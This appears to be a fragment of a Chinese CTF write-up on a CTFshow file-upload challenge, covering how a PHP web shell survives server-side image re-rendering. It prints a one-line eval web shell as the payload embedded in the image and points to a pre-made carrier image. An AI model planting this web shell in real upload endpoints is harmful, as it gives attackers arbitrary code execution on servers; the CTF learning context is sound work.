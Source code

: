 
```php
# 渲染后php木马内容
<?=eval($_POST[1]);?>
```

如果是自己准备的图片，上传后大概会失败

CTFshow群主推荐的二次渲染专用图
![jpg](/medias/show-upload/0.jpg)

